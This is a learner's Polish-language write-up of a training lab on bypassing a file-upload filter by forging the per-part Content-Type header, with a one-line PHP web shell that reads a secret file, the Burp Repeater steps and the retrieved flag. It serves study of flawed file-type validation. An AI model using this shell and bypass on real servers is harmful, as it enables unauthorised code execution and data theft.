

# Lab 02 — Web shell upload via Content-Type restriction bypass

| | |
|---|---|
| **Poziom** | Apprentice |
| **Status** | ✅ rozwiązany |
| **Data** | 2026-11-23 |
| **Narzędzia** | Burp (Proxy + Repeater), plik `exploits/shell.php` |

> 📖 **Teoria tej klasy podatności: [README tematu](README.md).** Tu tylko ten konkretny lab.

---

## Cel

Upload avatara dopuszcza tylko `image/jpeg`/`image/png`, sprawdzając nagłówek, który **ustawia klient**. Wgrać mimo to web shell i wyciągnąć `/home/carlos/secret`.

---

## Trik tego labu

Obrona: serwer czyta **per-part `Content-Type`** w `multipart/form-data` i ufa mu bez sprawdzania zawartości (magic bytes). Skoro ten nagłówek ustawia klient — kłamiesz w Repeaterze. **Zostawiasz `filename="shell.php"`** (nazwa decyduje o wykonaniu przez PHP), podmieniasz tylko wewnętrzny `Content-Type`:

```
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/jpeg          ← było text/php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Serwer uwierzy nagłówkowi (plik dalej jest czystym PHP). Potem jak w labie 01: `GET /files/avatars/shell.php` → `Content-Length: 32`, body = `qQJbhRwKTMq5KPbGBlbXDx2B3UCYjjOp`.

> Rodzina: zaufanie danym od klienta (jak cookie `Admin=false` w access control). Prawdziwa walidacja patrzyłaby na **zawartość**, nie deklarację.

---

## Przebieg



1. **Szczera próba**: upload `shell.php` jak jest → odrzucenie: *„Sorry, file type text/php is not allowed. Only image/jpeg and image/png are allowed."*
2. Przechwycone `POST /my-account/avatar` → **Send to Repeater**.
3. Zmień wewnętrzny `Content-Type` na `image/jpeg` (nie ruszaj `filename`).
4. **Send** → `200 OK`.
5. `GET /files/avatars/shell.php` → sekret → **Solved**.

---

## 💥 Moje potknięcia

- **Dwa różne `Content-Type` w jednym żądaniu** — jest globalny (`multipart/form-data; boundary=...`, nie ruszać) i wewnętrzny per-part (przy `filename=`, ten podmieniasz). Łatwo pomylić.
- Zapisane jako metoda: **rób najpierw szczerą próbę** — komunikat błędu (`text/php not allowed, only image/jpeg/png`) to darmowy wywiad, mówi co serwer sprawdza i jaką wartość podstawić.

---

## Czego ten lab dokłada

Pierwsza **obrona do obejścia** (w 01 jej nie było). Nowy koncept: **flawed file type validation** — walidacja oparta na danych kontrolowanych przez atakującego (`Content-Type`), nie na faktycznej zawartości. Łamie się ją jedną linijką. Dalej w temacie: mocniejsze walidacje (blacklisty rozszerzeń, `.htaccess`, polygloty).
